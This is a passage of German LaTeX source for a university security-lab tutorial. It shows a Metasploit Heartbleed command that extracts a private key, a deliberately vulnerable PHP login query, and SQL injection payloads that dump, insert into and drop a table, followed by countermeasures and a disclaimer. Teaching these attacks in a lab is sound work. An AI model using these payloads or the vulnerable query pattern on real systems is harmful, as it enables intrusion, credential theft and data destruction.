|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
\end{lstlisting}

Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit \bashCommand{-x} direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.




\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.1.0c\footnote{Stand Dezember 2016}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.
%!TEX root = ../document.tex
\chapter{SQL-Injection}
Eine SQL-Injection ist ein Angriff auf eine Benutzerschnittstelle, die mit einer Datenbank im Hintergrund kommuniziert. Dabei werden SQL-Befehle z.B. über die normalen Eingabefelder einer (Web-)Applikation an die Datenbank geschickt und dort ausgeführt. Dies kann dazu führen, dass der Angreifer Zugriff auf sensible Daten oder Anwendungen erhält oder sogar die komplette Datenbank löschen kann. 

\section{Erklärung}
Beinahe jede moderne Anwendung - seien es Webanwendungen wie Facebook oder klassische Client-Server-Applikationen mit einer speziellen Benutzeroberfläche wie SAP ERP - verwendet im Hintergrund ein Datenbankmanagementsystem zur Verwaltung und Speicherung der Applikationsdaten. Die Datenbank ist dabei i.d.R. von größerem Wert als die Anwendung selbst. In Industrieunternehmen enthalten Datenbanken z.B. Informationen zu Mitarbeitern, Kunden, Finanztransaktionen, Produktionspläne oder geheime Dokumente der Produktentwicklung. Datenbanken sind somit ein kritischer Bestandteil vieler Unternehmen. Deren Verfügbarkeit und Sicherheit ist wichtig für den Fortbestand des Unternehmens und daher auch gesetzlich geregelt\footnote{Siehe \url{https://www.bsi.bund.de/DE/Themen/ITGrundschutz/ITGrundschutzKataloge/Inhalt/_content/baust/b05/b05007.html} }.

Kriminell motivierte Hacker haben daher ein hohes Interesse daran, Zugang zu diesen Daten zu erhalten. Eine möglicher Zugriffsweg hierfür ist das Ausnutzen von Schwachstellen durch SQL-Injections.

Um SQL-Injections durchführen zu können, wird lediglich ein grundlegendes Verständnis klassischer Anwendungsarchitekturen und der Datenbankabfragesprache SQL benötigt. Die Grundlagen hierzu werden nachfolgend erläutert.

\subsection{Grundlagen Datenbanksysteme}
\emph{Datenbanksysteme} (DBS) sind ein weithin genutztes Hilfsmittel zur rechnergestützten Organisation, Erzeugung, Veränderung und Verwaltung großer Datensammlungen und stellen in vielen Unternehmen und Organisationen die zentrale Informationsbasis zu ihrer Aufgabenerfüllung bereit. Ein DBS besteht aus einem \emph{Datenbankmanagementsystem} (DBMS) und einer oder mehrerer Datenbanken. Eine Datenbank ist eine Zusammenstellung von Daten samt ihrer Beschreibung (Metadaten), die persistent im DBS abgelegt werden.

Das DBMS bildet die Schnittstelle zwischen den Datenbanken und dient den Benutzern zur Datenverwaltung und -Veränderung. Die zentralen Aufgaben eines DBMS sind im Wesentlichen die Bereitstellung verschiedener Sichten auf die Daten (Views), die Konsistenzprüfung der Daten (Integritätssicherung), die Autorisationsprüfung, die Behandlung gleichzeitiger Zugriffe verschiedener Benutzer (Synchronisation) und das Bereitstellen einer Datensicherungsmöglichkeit, um im Falle eines Systemausfalls zeitnah Daten wiederherstellen zu können.

Der Zugriff auf die Daten erfolgt mithilfe einer standardisierten Abfragesprache, der \emph{Structured Query Language} (SQL). Durch sie können Datenstrukturen angelegt und verändert werden, neue Daten zur Datenbank hinzugefügt oder bestehende Daten verändert oder gelöscht werden. 

\subsection{3-Schichten-Architektur}
\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/3TierArchitecture.jpg}
	\caption{3-Schichten-Architektur}
	\label{fig:3TierArchitecture}
\end{figure}

DBS werden von Endanwendern nicht direkt genutzt, sondern durch die Applikation und graphische Oberflächen verschalt. Der Benutzer greift z.B. via HTTP über die Oberfläche auf die Applikation zu. Die Applikation selbst ist mit einem dedizierten Datenbankbenutzer mit dem DBS verbunden, die Kommunikation erfolgt über SQL. Diese Architektur wird wegen ihrer drei Ebenen - der Präsentations-, der Logik- und der Persistenzschicht - auch als 3-Schichten-Architektur bezeichnet (vergleiche Abbildung \ref{fig:3TierArchitecture}). 

Die Applikationen stellen dem Benutzer Eingabefelder zur Verfügung, mittels derer die Benutzer Daten auslesen, verändern oder neu erzeugen können. Die Benutzereingaben werden zu bereits vorgefertigten SQL-Statements hinzugefügt und an das DBS gesendet. Das DBS verarbeitet das Statement und sendet eine Antwort an die Anwendung zurück.

\subsection{Der Angriff}
Bei einer SQL-Injection werden, wie der Name schon impliziert, (Teile von) SQL-Statements an die normalen Benutzereingaben angehängt, um somit die Logik und die Sicherheitsmechanismen der Applikation zu umgehen.

Der SQL-Interpreter des DBMS führt das ursprüngliche und die angehängten Statements aus. Mittels geschickter SQL-Injections können über harmlose Benutzerschnittstellen ganze Datenbanken gelöscht werden.

\section{Vorbereitung}
Für die Ausführung des Tutorials wird Kali Linux 2.0 mit eingerichteter Security Workbench benötigt. Alternativ kann das Skript auf einem anderen beliebigen Linux-System verwendet werden, in dem MySQL und Apache2 installiert sind. Zur korrekten Initialisierung der Webanwendung muss ggf. der Pfad zum Apache-Webserver in der Datei 'initializeDB.py' geändert werden. Die zu konfigurierenden Pfade im Quellcode sind entsprechend gekennzeichnet.

\section{Ablauf}
\subsection{Aufbau des Login-Web-Services}
Das Tutorial wird über die Security Workbench unter dem Hauptmenüpunkt 4 aufgerufen. Zu Beginn wird der Apache2-Webserver und das MySQL-DBMS gestartet. Anschließend wird die Datenbank initialisiert. Dabei wird folgendes Schema erstellt:
\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/table_secretUserData.jpg}
	\caption{Tabellenstruktur der Tabelle \enquote{secretUserData}}
	\label{fig:table_secretUserData}
\end{figure}

Nun stehen verschiedene Tutorials zur Verfügung. Sie alle basieren auf demselben Web-Service, einem Login für eine Website (siehe Abbildung \ref{fig:user}). Der Web-Service wurde in HTML/CSS, JavaScript und PHP entwickelt. Die Benutzereingaben werden auf der HTML-Seite entgegen genommen und über einen Ajax-Aufruf an PHP übergeben. 

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/login.jpg}
	\caption{Login-Oberfläche des Web-Services}
	\label{fig:user}
\end{figure}

Dort werden die Benutzereingaben in einen vordefiniertes SQL-Statement eingefügt (siehe Listing \ref{lstlisting:SQL-Statement}) und an das DBS zur Ausführung übermittelt. Die Antwort des Servers, ein oder mehrere zutreffende Tupel mit der User-ID, dem User-Namen und dem User-Passwort werden anschließend unterhalb des Eingabefelds in dem Web-Service angezeigt. Dort ist ebenfalls das im DBS ausgeführte SQL-Statement zu sehen.

\begin{lstlisting}[caption=SQL-Statement\label{lstlisting:SQL-Statement}]{Name}
$query = '
	SELECT * 
	FROM secretUserData 
	WHERE userName = "'.$username.'" 
	AND   password = "'.$password.'";
';
\end{lstlisting}

Zudem sind zwei Buttons verfügbar, mit denen die Tabellenstruktur sowie der momentane Inhalt der Tabelle angezeigt werden können.

\subsection{SQL-Injection zum Auslesen von Daten}
Im ersten Teil des Tutorials werden mittels einer einfachen SQL-Injection Daten aus der Datenbank gelesen, auf die man über die Anwendung eigentlich keinen Zugriff hätte. Über die zwei Eingabefelder \enquote{Benutzername} und \enquote{Login} kann sich der Benutzer an einer Anwendung anmelden. Die Eingaben werden an die Datenbank geschickt und in einem SELECT-Statement überprüft. Anschließend wird der selektierte Datensatz zurück geschickt.

Als erstes melden wir uns mit einem schon bekannten User und Passwort an, um die Funktionsweise zu testen. Nutze hierzu den User \colorbox{altgray}{\lstinline|Douglas Adams|} mit dem Passwort \colorbox{altgray}{\lstinline|DontPanic!|} und drücke auf den "Login"-Button."

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/normal_login.jpg}
	\caption{Normaler Login}
	\label{fig:normal_login}
\end{figure}

Dieses Szenario spiegelt die angedachte Nutzung des Login-Dienstes wieder. ein Nutzer meldet sich mit seinen Anmeldedaten an und deren Existenz wird in der Datenbank überprüft. Stimmen die Anmeldedaten überein, ist der Nutzer angemeldet und hat Zugriff auf die Anwendung.

Als nächstes sollen mittels einer SQL-Injection alle User der Datenbank \enquote{secretUserData} ausgegeben werden. Ersetze die aktuellen Eingaben hierzu z.B. durch \colorbox{altgray}{\lstinline|blabla" OR "1"="1|}. 

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/select_injection.jpg}
	\caption{Login mit SELECT-Injection}
	\label{fig:select_injection}
\end{figure}

Nun wurden alle Tupel, die in der Tabelle \enquote{secretUserData} enthalten sind ausgegeben. Möglich ist das durch das Anhängen von z.B. \colorbox{altgray}{\lstinline|OR "1"="1|} an eine beliebige Eingabe. Hierdurch werden die Abfragen der WHERE-Klausel grundsätzlich zu TRUE ausgewertet. Am obigen Beispiel erläutert bedeutet dies:
\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/or1is1.jpg}
	\caption{Auswertung von OR "1"="1}
	\label{fig:or1is1}
\end{figure}
Sobald alle Ausdrücke innerhalb der WHERE-Klausel zu TRUE evaluiert wurden, wird die gesamte Datenbanktabelle ausgegeben. Hängt man den Zusatz lediglich an das Eingabefeld für das Passwort an, erhält man den Datensatz für den eingegebenen Benutzer. Dieses Szenario ist z.B. typisch, wenn man bereits einen möglichen Benutzernamen für die Applikation kennt, aber dessen Passwort unbekannt ist.

\subsection{SQL-Injection zum Einfügen von Daten}
Im zweiten Teil des Tutorials wird mittels einer SQL-Injection ein zusätzlicher Datensatz in die Tabelle eingefügt. Die Beispiel-Applikation ist äquivalent zu der aus dem ersten Tutorial. Dieses mal hängen wir an einen \colorbox{altgray}{\lstinline|beliebigen Benutzernamen|} folgendes INSERT-Statement inkl. Kommentar an: \shorthandoff{"}\colorbox{altgray}{\lstinline|"; INSERT INTO secretUserData VALUES(1234, "Hackerman", "fsociety"); --|}\shorthandon{"} . Im Eingabefeld für das Passwort können ebenfalls beliebige Zeichen eingegeben werden.
Durch diese Injection werden dem DBS prinzipiell drei Befehle übergeben:

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/insert_injection.jpg}
	\caption{Login mit INSERT-Injection}
	\label{fig:insert_injection}
\end{figure}

\begin{itemize}
	\item Das ursprüngliche SELECT-Statement bis zur Eingabe eines Benutzers:  \colorbox{altgray}{\lstinline|SELECT * FROM secretUserData WHERE username = "<übergebener Benutzername>";|}
	\item Das angehängte INSERT-Statement \colorbox{altgray}{\lstinline|INSERT INTO secretUserData VALUES(1234, "Hackerman", "fsociety");|}
	\item Ein Kommentar, der in SQL mit zwei Bindestrichen eingeleitet wird: \colorbox{altgray}{\lstinline|--|}. Hierdurch wird der SQL-Code, der noch zum ursprünglichen SELECT-Statement gehört, als Kommentar vom SQL-Interpreter ignoriert. Im Beispiel betrifft das: \shorthandoff{"}\colorbox{altgray}{\lstinline|" AND password = "<übergebenes Passwort>";|}\shorthandon{"}
\end{itemize}

Sieht man sich nach der Ausführung des Statements die Inhalte der Tabelle an, ist zu sehen, dass sich ein neuer Datensatz mit der User-ID 1234, dem Usernamen \enquote{Hackerman} und dem Passwort \enquote{fsociety} enthält. Nutzt man für die Injection zusätzlich einen existierenden Benutzernamen statt der Eingabe \enquote{bla}, wird man gleichzeitig an der Applikation angemeldet.

\subsection{SQL-Injection zum Löschen von Tabellen}
Im dritten Teil des Tutorials wird mittels einer SQL-Injection die komplette Tabelle gelöscht (DROP). Bitte beachte, dass du die Datenbank erst im Hauptmenü des Konsolen-Skripts im Unterpunkt \enquote{5. Datenbank zurück setzen} wieder initialisieren musst, wenn du nach dem DROP weiterarbeiten möchtest! Nun hängen wir an einen \colorbox{altgray}{\lstinline|beliebigen Benutzernamen|} folgendes Statement inkl. Kommentar an: \shorthandoff{"}\colorbox{altgray}{\lstinline|"; DROP TABLE secretUserData; --|}\shorthandon{"} . Im Eingabefeld für das Passwort können ebenfalls beliebige Zeichen eingegeben werden.
 
\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/drop_injection.jpg}
	\caption{Login mit DROP-Injection}
	\label{fig:drop_injection}
\end{figure}

Die Ausführung der drei Statements (SELECT, DROP, Kommentar) ist äquivalent zum vorherigen Beispiel.

\subsection{Die SQL-Injection-Spielwiese}
Unter Punkt 4 in der Konsole der Security Workbench findest du die SQL-Injection-Spielwiese. Innerhalb dieser Spielwiese kannst du beliebige SQL-Injections ausprobieren.

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/SQL_Injection/various_injections.jpg}
	\caption{Verschiedene SQL-Injections zum Ausprobieren}
	\label{fig:various_injections}
\end{figure}

Als Hinweis sind die Statements der vorhergegangenen Beispiele und einige weitere im nachfolgenden Fenster hinterlegt. Um sie zu sehen musst du lediglich den Inhalt des Fensters mit der Maus markieren. Bitte beachte, dass du die Datenbank im Hauptmenü des Konsolen-Skripts im Unterpunkt \enquote{5. Datenbank zurück setzen} wieder initialisieren musst, wenn du nach einer Datenstruktur verändernden SQL-Injection weiter arbeiten willst. Dazu musst du die Anwendung nicht schließen. Deine Änderungen am Inhalt oder an der Struktur der Datenbank kannst du mit der Anzeige der Tabellenstruktur bzw. dem Inhalt jederzeit prüfen.\\

Neben den hier aufgelisteten gibt es noch eine Vielzahl weiterer SQL-Injections. Nicht alle werden in diesem Beispiel funktionieren, da der Erfolg von SQL-Injections von mehreren Faktoren abängig ist:
\begin{itemize}
	\item Die Programmiersprache der Anwendung
	\item Das verwendete DBMS
	\item Die Berechtigungen, die der Datenbankbenutzer der Anwendung inne hat
\end{itemize}

\section{Gegenmaßnahmen}
Viele Programmiersprachen haben mittlerweile Mechanismen eingebaut, mittels derer SQL-Injections abgewehrt werden können. So ist es in den meisten Programmier- und Skriptsprachen nicht mehr möglich, innerhalb eines DB-Aufrufs mehrere SQL-Statements auszuführen. In einigen wenigen ist dies immer noch möglich, wie z.B. in der Skriptsprache PHP.
\subsection{Prepared Statements}
Durch sogenannte \enquote{Prepared Statements} können SQL-Injections vollständig unterbunden werden. Statt das SQL-Statement komplett auf der Applikationsseite zusammenzustellen, wird das Statement auf zwei Mal an das DBS gesendet. Im ersten Aufruf wird das vorbereitete Statement ohne die Nutzereingaben an das DBS übermittelt. Hierdurch wird dem DBS die Struktur des Statements im Vorfeld angekündigt. Nachfolgend ist das Prepared Statement eines SELECT-Statements zu sehen:
\begin{lstlisting}[caption=Prepared Statement]{Name}
prepare("SELECT * FROM secretUserData where userName = ?");
\end{lstlisting}

Die vom Nutzer eingegebenen Parameter werden erst im Anschluss an das DBS übermittelt:
\begin{lstlisting}[caption=Übergabe der Parameter]{Name}
execute($_GET['name']);
\end{lstlisting}
Dort werden sie in das bereits angekündigte Statement eingefügt und ausgeführt. Übergebene Parameter, auch wenn ihnen SQL-Code hinzugefügt wurde, werden ausschließlich als Textinput interpretiert. 
\subsection{Escapen von Eingaben}
Eine weitere Möglichkeit die Datenbank vor unberechtigtem Zugriff und Manipulationen zu schützen ist das Escapen aller Nutzereingaben.
Das grundlegende Problem bei SQL-Injections ist die Interpretation von Texteingaben als ausführbare Anweisungen für das DBMS. Durch das Escapen der Eingaben werden Metazeichen wie Anführungszeichen maskiert und somit vom SQL-Interpreter nicht beachtet. Nachfolgend ist das Escapen von Strings in PHP dargestellt:
\begin{lstlisting}[caption=Escapen von Strings in PHP]{Name}
mysql_real_escape_string("some String");
\end{lstlisting}

%!TEX root = ../document.tex
\chapter{Disclaimer}
\label{ch:disclaimer}

Das vorliegende Dokument und das zugehörige Tool \enquote{Security Workbench} sind im Rahmen eines Projektes des Masterstudiengangs Informatik an der Technischen Hochschule Ingolstadt (THI) im Wintersemester 2016/17 entstanden. Sinn und Zweck der Security Workbench ist es, interessierten Studierenden das Thema IT-Security näher zu bringen. Alle hier gezeigten Tutorials sind ausschließlich für den Einsatz innerhalb einer eigens dafür geschaffenen Umgebung (z.B. dediziertes WLAN zum Durchspielen der Angriffsszenarien) mit der Zustimmung aller Beteiligten (sowohl Angreifer als auch Angegriffene) gedacht.

Der Missbrauch der zur Verfügung gestellten Informationen und Tutorials für kriminelle Handlungen kann strafrechtliche Folgen nach sich ziehen. Strafrechtliche Grundlagen sind hierbei u.a.:
\begin{itemize}
	\item§202 StGB – Ausspähen von Daten
	\item§263 StGB – Computerbetrug
	\item§269 StGB – Fälschung beweiserheblicher Daten
	\item§270 StGB – Täuschung im Rechtsverkehr bei DV
	\item§§ 271, 274, 348 StGB – Falschbeurkundung/Urkundenunterdrückung im Zusammenhang mit DV
	\item§303a StGB – Datenveränderung
	\item§303b StGB – Computersabotage
\end{itemize}

Haftungsansprüche gegen die Autoren oder die THI im Falle der missbräuchlichen Verwendung der Informationen und des Tutorials sind ausgeschlossen. Die Autoren und die THI distanzieren sich ausdrücklich von der Verwendung der Informationen und des Tutorials für kriminelle Handlungen.

Die Autoren und die THI übernimmt keinerlei Gewähr für die Aktualität, Korrektheit, Vollständigkeit oder Qualität der bereitgestellten Informationen. Haftungsansprüche gegen die Autoren oder die THI, welche sich auf Schäden materieller oder ideeller Art beziehen, die durch die Nutzung oder Nichtnutzung der dargebotenen Informationen und Tutorials verursacht wurden, sind grundsätzlich ausgeschlossen. Die Autoren behalten es sich ausdrücklich vor, Teile der Dokumentation bzw. des Tutorials oder das gesamte Angebot ohne gesonderte Ankündigung zu verändern, zu ergänzen, zu löschen oder die Veröffentlichung zeitweise oder endgültig einzustellen.

Bei direkten oder indirekten Verweisen auf fremde Quellen und Internetseiten, die außerhalb des Verantwortungsbereichs der Autoren liegen, würde eine Haftungsverpflichtung ausschließlich in dem Fall in Kraft treten, in dem die Autoren von den Inhalten Kenntnis haben und es ihnen technisch möglich und zumutbar wäre, die Nutzung im Falle rechtswidriger Inhalte zu verhindern. Die Autoren erklären daher ausdrücklich, dass zum Zeitpunkt der Linksetzung die entsprechenden verlinkten Seiten frei von illegalen Inhalten waren. Die Autoren haben keinerlei Einfluss auf die aktuelle und zukünftige Gestaltung und auf die Inhalte der verknüpften Quellen und Seiten. Deshalb distanzieren sie sich hiermit ausdrücklich von allen Inhalten aller verknüpften Quellen und Seiten, die nach der Verknüpfung verändert wurden. Für illegale, fehlerhafte oder unvollständige Inhalte und insbesondere für Schäden, die aus der Nutzung oder Nichtnutzung solcherart dargebotener Informationen entstehen, haftet allein der Anbieter der Seite, auf welche verwiesen wurde, nicht derjenige, der über Links auf die jeweilige Veröffentlichung lediglich verweist.



%Ende Text
\end{document}